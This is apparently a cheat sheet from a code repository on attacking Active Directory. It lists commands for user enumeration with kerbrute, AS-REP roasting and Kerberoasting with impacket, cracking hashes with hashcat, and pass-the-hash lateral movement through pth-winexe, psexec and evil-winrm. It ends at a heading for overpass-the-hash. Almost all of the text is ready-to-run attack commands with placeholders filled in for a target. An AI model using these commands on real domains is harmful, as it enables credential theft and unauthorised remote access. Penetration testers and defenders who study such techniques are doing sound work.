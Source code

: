 ## AS-REP Roasting Attack - not require Pre-Authentication
-> kerbrute - Enumeration Users
```bash
kerbrute userenum -d test.local --dc <dc_ip> userlist.txt
```
- https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt

-> GetNPUsers.py - Query ASReproastable accounts from the KDC
```bash
impacket-GetNPUsers domain.local/ -dc-ip <IP> -usersfile userlist.txt
```

## Kerberoast
-> impacket-GetUserSPNs
```bash
impacket-GetUserSPNs <domain>/<user>:<password>// -dc-ip <IP> -request
```
or  
```bash
impacket-GetUserSPNs -request -dc-ip <IP> -hashes <hash_machine_account>:<hash_machine_account> <domain>/<machine_name$> -outputfile hashes.kerberoast
```

```powershell
hashcat -a 0 -m 13100 ok.txt /usr/share/wordlists/rockyou.txt 
```
```powershell
.\PsExec.exe -u <domain>\<user> -p <password> cmd.exe
```
or  
```powershell
runas /user:<hostname>\<user> cmd.exe
```


## Active Directory Lateral Movement
### Pass the Hash
-> Allows an attacker to authenticate to a remote system or service via a user's NTLM hash
```bash
pth-winexe -U Administrator%aad3b435b51404eeaad3b435b51404ee:<hash_ntlm> //<IP> cmd
```

-> Remote Access - impacket-psexec  
```bash
impacket-psexec '<domain>/<user>'@<IP> -hashes ':<hash>'
impacket-psexec '<domain>/<user>'@<IP>
```

-> Remote Access + evil-winrm  
```bash
evil-winrm -i <IP> -u <user> -H <hash>
```

### Over Pass the Hash
-> Allows an attacker to abuse an NTLM user hash to obtain a full Kerberos ticket granting ticket (TGT) or service ticket, which grants us access to another machine or service as that user
